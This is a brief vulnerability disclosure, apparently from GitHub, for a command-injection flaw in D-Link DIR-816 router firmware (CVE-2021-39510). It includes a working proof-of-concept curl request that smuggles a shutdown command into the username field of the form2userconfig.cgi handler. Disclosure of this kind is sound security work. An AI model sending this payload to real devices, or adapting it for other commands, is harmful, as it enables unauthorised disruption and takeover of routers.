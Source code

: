 # report

##### Describe

​	I found some vulnerabilities in the dir-816 750m11ac wireless router ,**Firmware version is**  DIR816_A1_FW101CNB04

​	The HTTP request parameter is used in the handler function of  /goform/form2userconfig.cgi route, which can construct the user name string to delete the user function. This can lead to command injection through shell metacharacters.

​	If the user can configure the router, it may cause unconditional command execution If the user can configure the router, it may cause unconditional command execution.

https://supportannouncement.us.dlink.com/announcement/publication.aspx?name=SAP10240

##### POC&&EXP


```
curl -i -X POST http://192.168.33.9/goform/form2userconfig.cgi  -d "username=Admin';shutdown;'&oldpass=123&newpass=123&confpass=123&deluser=Delete&select=s0&hiddenpass=&submit.htm%3Fuserconfig.htm=Send"
```
Now it will shutdown

### CVE ID
CVE-2021-39510
